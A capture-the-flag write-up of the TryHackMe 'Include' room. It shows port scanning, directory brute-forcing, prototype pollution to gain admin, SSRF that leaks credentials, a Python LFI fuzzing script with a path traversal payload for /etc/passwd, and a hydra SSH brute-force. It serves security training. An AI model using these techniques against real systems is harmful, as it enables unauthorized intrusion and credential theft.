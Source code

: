 ## THM CTF - Include

Flags:

> What is the flag value after logging in to the ```SysMon``` app?

> What is the content of the hidden text file in ```/var/www/html```?

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   include.thm
```
***It’s important to note that if we’re unable to navigate the site correctly, we can always use the IP address as a backup.***

Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 include.thm -p-
```
We discovered three open ports, and we can list the services they provide.
```
sudo nmap -sS -p22,25,110,143,993,995,4000,50000 -sV -T4 include.thm
```

These are the results:
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```
We can start navigating the two site we've found on ```port 4000``` and ```50000```

```Port 4000``` site is a login page, and trying to login with guest credentials provided by the page itself, we are able to access this site.
```
Post target: http://include.thm:4000/signin
Payload:
{
	"name": "guest",
	"password": "guest"
}
Cookies:
{
	"Request Cookies": {
		"connect.sid": "s:xxxxxxxxxxxxxxxx",
		"PHPSESSID": "xxxxxxxxx"
	}
}
Invalid response (signin):
Incorrect name or password
```
Port 50000 leads us to a restricted site with an index.php page and a login page that we can immediately test.
```
Post target: http://include.thm:50000/login.php
Payload:
{
	"username": "admin",
	"password": "admin"
}
Cookies:
{
	"Request Cookies": {
		"connect.sid": "s:xxxxxxxxxxxxxxxx",
		"PHPSESSID": "xxxxxxxxx"
	}
}
Invalid response (login.php):
Login credentials incorrect
```
We can proceed with ```Gobuster``` on both sites.
```
gobuster dir -u http://include.thm:4000 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
and
```
gobuster dir -u http://include.thm:50000 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```

#### Port 4000

Nothing interesting except for ```/signup``` page that return an ```internal server error (code 500)```.

#### Port 50000

Readable folders:
```
/templates/
/uploads/
```
Notable pages:
```
auth.php
api.php
dashboard.php
profile.php
```
For now it's enough.
We can now explore the guest area on ```port 4000```.

#### Guest area on port 4000

Exploring the site, we discover some input area to test.
We try a classic XSS attack:
```
<script>alter('Test')</script>
```
without success.

At this point we can try to elevate our privileges to Admin thanks to ```Prototype Pollution```.
After some attempts, we can finally achieve our objective by adding:
```
Activity type: "isAdmin"
Activity name: true
```
Obtaining some new menu voices.

In the API section we can find some important information.
```
http://127.0.0.1:5000/internal-api
Response:
{
  "secretKey": "superSecretKey123",
  "confidentialInfo": "This is very confidential."
}
```
and
```
http://127.0.0.1:5000/getAllAdmins101099991
Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```
In the Settings section we can find a module that can might be used to further investigate these two internal links.

We can try to insert the URL discovered before.
```
http://127.0.0.1:5000/getAllAdmins101099991
```
We receive the response:
```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=
```
Thanks to CyberChef we can convert this text from Base64 and obtain passwords for Admin (review App) and Administrator (SysMon) account.

{"ReviewAppUsername":"admin","ReviewAppPassword":"xxxxxxxxxxx","SysMonAppUsername":"administrator","SysMonAppPassword":"xxxxxxxxxxx"}

Logging in the ```SysMon``` app, we immediately find the first flag.

Now we need to find the second flag hidden in the ```/var/www/html``` folder.

We try enumerate some of the ```Gobuster``` findings.
After some attempts ```profile.php``` is the only one that seems promising.
In the ```SysMon``` page, there is a link to an image.
```
profile.php?img=profile.png
```
Maybe we can try some ```LFI (Local file inclusion) poisoning```.

```profile.png``` is a file in the folder uploads (discovered previously thanks to the ```Gobuster``` analysis).

After some unsuccessful manual attempts, we should try using long lists and some ```Python``` code.
```
cp /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt .
```
We can simplify the lists because we're looking only for /etc/passwd file.
```
cat LFI-Jhaddix.txt | grep -e 'passwd' > LFI-Jhaddix_short.txt
```
With this list we can execute the ```Python``` script.

<details>
<summary><h3>THM_Include_LFI_Poisoning.py</h3></summary>

```python
import requests

# Change these variables to suits your needs
# Set the target and port

target_ip = '10.10.47.92'
target_port = '50000'

# Set the cookies obtained after a successful login

connect_sid = 's%3AZzTlaCDVBh3QI1YW4p7R8v5ntvMN6ePt.IDg3kva70jRW%2BXcafps0%2BFSY0eXu4p1fN3rp5F6Dzgc'
phpsessid = 'prd7v21kdgn5uojfkn7tmbd1mu'

# Change the path and name of the list to be used

lfi_file = '/home/kali/Downloads/THM_Include/LFI-Jhaddix_short.txt'

# Do not touch these variables

target_uri = f'http://{target_ip}:{target_port}/profile.php?img='
cookies = {
    'connect.sid' : connect_sid,
    'PHPSESSID' : phpsessid

}

# Set-up the session using cookies 

session = requests.Session()
session.cookies.update(cookies)

# Read the file

try:
    with open(lfi_file, 'r') as file:
        for item in file:

            # Generate the request with a get method using list file payload

            request = session.get(f'{target_uri}{item.strip()}')

            # If the word 'root' (always found in the /etc/passwd file) is in the response, print the results and exit

            if 'root' in request.text:
                print(f'{target_uri}{item}')
                print(request.text)
                break

except FileNotFoundError:
    print(f"File not found: {lfi_file}")

print('End of file')

```

  
</details>

We finally find the correct answer:
```
http://include.thm:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
```

We are able to find two interesting users:
```
joshua
charles
```
Trying to connect to these tow account via SSH and using the super secret password found earlier,
```
ssh joshua@include.thm
password: superSecretKey123
```
We attempted the same approach with ```charles```, but unfortunately, we were unsuccessful.

Approaching the problem from a brute-force point-of-view, we achieve success in finding an entry point.
```
hydra -l joshua -P /usr/share/wordlists/rockyou.txt include.thm ssh
```
Now that we have the password we can login via ```SSH``` to the target machine.

Navigating to the target folder, we find the second flag.
